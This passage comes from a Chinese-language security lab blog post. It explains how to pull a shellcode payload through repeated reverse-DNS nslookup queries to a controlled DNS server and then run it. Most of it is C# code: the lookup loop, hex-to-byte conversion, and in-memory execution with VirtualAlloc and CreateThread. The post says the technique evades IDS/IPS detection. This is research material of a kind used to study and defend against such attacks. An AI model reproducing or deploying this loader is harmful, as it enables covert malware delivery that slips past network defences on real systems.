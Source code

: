 这样我们就获得了某个IP对应的payload数据字符串。

获取全部的payload数据字符串

```
for (int i = 0; i < _IPaddress_Counter; i++){    _DATA[i] = __nslookup(_IPaddress_Begin + i, _DnsServer);    DATA += _DATA[i].ToString();}
```

这里就是循环遍历所需来获得完整的payload数据字符串，这里就是在重复执行nslookup，我也暂时没有找到好的方法替代，希望有知道的人告诉一下。

将payload字符串转换成字节数组

```
object tmp = new object();byte[] __Bytes = new byte[DATA.Length / 2];for (int i = 0; i < __Bytes.Length - 1; i++){    int start = i * 2;    tmp = DATA.Substring(start, 2);    byte current = Convert.ToByte("0x" + tmp.ToString(), 16);    __Bytes[i] = current;}
```

## 调用创建线程来运行payload

```
UInt32 funcAddr = VirtualAlloc(0, (UInt32)__Bytes.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);Marshal.Copy(__Bytes, 0, (IntPtr)(funcAddr), __Bytes.Length);IntPtr hThread = IntPtr.Zero;UInt32 threadId = 0;IntPtr pinfo = IntPtr.Zero;hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);WaitForSingleObject(hThread, 0xFFFFFFFF);
```

**0x04 运行结果**

生成格式化的DNS反向解析数据

![Image](svg3E.svg)

   

启动DNS服务

![Image](svg3E.svg)

运行反向解析后的结果  

在重复执行nslookup

![Image](svg3E.svg)

反向解析的日志  

![Image](svg3E.svg)

最终执行了payload

![Image](svg3E.svg)

**0x05 结论**

我们可以利用DNS反向解析来传输数据，可以很好的躲避IDS/IPS的检测。

银河实验室

![Image](svg3E.svg)

银河实验室（GalaxyLab）是平安集团信息安全部下一个相对独立的安全实验室，主要从事安全技术研究和安全测试工作。团队内现在覆盖逆向、物联网、Web、Android、iOS、云平台区块链安全等多个安全方向。

官网：http://galaxylab.pingan.com.cn/
